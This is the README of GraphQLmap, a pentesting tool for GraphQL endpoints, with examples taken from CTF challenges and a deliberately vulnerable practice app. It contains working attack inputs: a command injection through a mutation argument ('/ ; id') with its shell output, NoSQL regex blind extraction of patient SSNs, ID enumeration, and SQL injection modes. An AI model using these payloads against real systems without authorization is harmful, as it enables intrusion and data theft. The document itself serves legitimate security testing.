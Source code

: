 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.


* [Install](#install)
* [Features and examples](#features-and-examples)
  - [Dump a GraphQL schema](#dump-a-graphql-schema)
  - [Interact with a GraphQL endpoint](#interact-with-a-graphql-endpoint)
  - [Execute GraphQL queries](#)
  - [Autocomplete queries](#)
  - [GraphQL field fuzzing](#graphql-field-fuzzing)
    - [Example 1 - Bruteforce a character](#example-1---bruteforce-a-character)
    - [Example 2 - Iterate over a number](#example-2---iterate-over-a-number)
  - [NoSQL injection inside a GraphQL field](#nosql-injection)
  - [SQL injection inside a GraphQL field](#sqli-injection)

I :heart: pull requests, feel free to improve this script :)

You can also contribute with a :beers: IRL or using Github Sponsoring button.

## Install

```basic
$ git clone https://github.com/techanvconsulting/GraphQLmap
$ python setup.py install
$ graphqlmap                                                              
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap.py [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]] [--headers [HEADERS]] [--json [USE_JSON]] [--proxy [PROXY]]

optional arguments:
  -h, --help           show this help message and exit
  -u URL               URL to query : example.com/graphql?query={}
  -v [VERBOSITY]       Enable verbosity
  --method [METHOD]    HTTP Method to use interact with /graphql endpoint
  --headers [HEADERS]  HTTP Headers sent to /graphql endpoint
  --json [USE_JSON]    Use JSON encoding, implies POST
  --proxy [PROXY]      HTTP proxy to log requests
```

Development setup

```ps1
python -m venv .venv
source .venv/bin/activate
pip install --editable .
pip install -r requirements.txt
./bin/graphqlmap -u http://127.0.0.1:5013/graphql
```


## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Connect to a graphql endpoint

```py
# Connect using POST and providing an authentication token
graphqlmap -u https://yourhostname.com/graphql -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'

# Pass request through Burp Proxy
graphqlmap -u "http://172.17.0.1:5013/graphql" --proxy http://127.0.0.1:8080
```

### Dump a GraphQL schema

Use `dump_new` to dump the GraphQL schema, this function will automatically populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump_new                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```


### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

It also works with `mutations`, they must be written in a single line.

```ps1
# ./bin/graphqlmap -u http://127.0.0.1:5013/graphql --proxy http://127.0.0.1:8080 --method POST
GraphQLmap > mutation { importPaste(host:"localhost", port:80, path:"/ ; id", scheme:"http"){ result }}
{
    "data": {
        "importPaste": {
            "result": "uid=1000(dvga) gid=1000(dvga) groups=1000(dvga)\n"
        {
    {
{
```


### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

#### Example 1 - Bruteforce a character

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

#### Example 2 - Iterate over a number

Use `GRAPHQL_INCREMENT_` followed by a number.

```powershell
GraphQLmap > { paste(pId: "GRAPHQL_INCREMENT_10") {id,title,content,public,userAgent} }
[+] Query: (45) { paste(pId: "0") {id,title,content,public,userAgent} }
[+] Query: (245) { paste(pId: "1") {id,title,content,public,userAgent} }
[+] Query: (371) { paste(pId: "2") {id,title,content,public,userAgent} }
[+] Query: (309) { paste(pId: "3") {id,title,content,public,userAgent} }
[+] Query: (311) { paste(pId: "4") {id,title,content,public,userAgent} }
[+] Query: (308) { paste(pId: "5") {id,title,content,public,userAgent} }
[+] Query: (375) { paste(pId: "6") {id,title,content,public,userAgent} }
[+] Query: (315) { paste(pId: "7") {id,title,content,public,userAgent} }
[+] Query: (336) { paste(pId: "8") {id,title,content,public,userAgent} }
[+] Query: (377) { paste(pId: "9") {id,title,content,public,userAgent} }

GraphQLmap > { paste(pId: "9") {id,title,content,public,userAgent} }
{ paste(pId: "9") {id,title,content,public,userAgent} }
{
    "data": {
        "paste": {
            "content": "I was excited to spend time with my wife without being interrupted by kids.",
            "id": "UGFzdGVPYmplY3Q6OQ==",
            "public": true,
            "title": "This is my first paste",
            "userAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0"
        }
    }
}
```

### GraphQL Batching

GraphQL supports Request Batching. Batched requests are processed one after the other by GraphQL
Use `BATCHING_PLACEHOLDER` before a query to send it multiple times inside a single request.

```ps1
GraphQLmap > BATCHING_3 {__schema{ types{namea}}}
[+] Sending a batch of 3 queries
[+] Successfully received 3 outputs

GraphQLmap > BATCHING_2 {systemUpdate}
[+] Sending a batch of 2 queries
[+] Successfully received 2 outputs
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
Charset > 0123456789abcdef-
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
GraphQLmap >
```

### SQL injection 

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```

## Practice

* [Damn Vulnerable GraphQL Application - @dolevf](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application/blob/master/setup.py) : `docker run -t -p 5013:5013 -e WEB_HOST=0.0.0.0 dolevf/dvga`

## TODO

* GraphQL Field Suggestions
* Generate mutation query
* Unit tests
* Handle node
```
{
  user {
    edges {
      node {
        username
      }
    }
  }
}
```
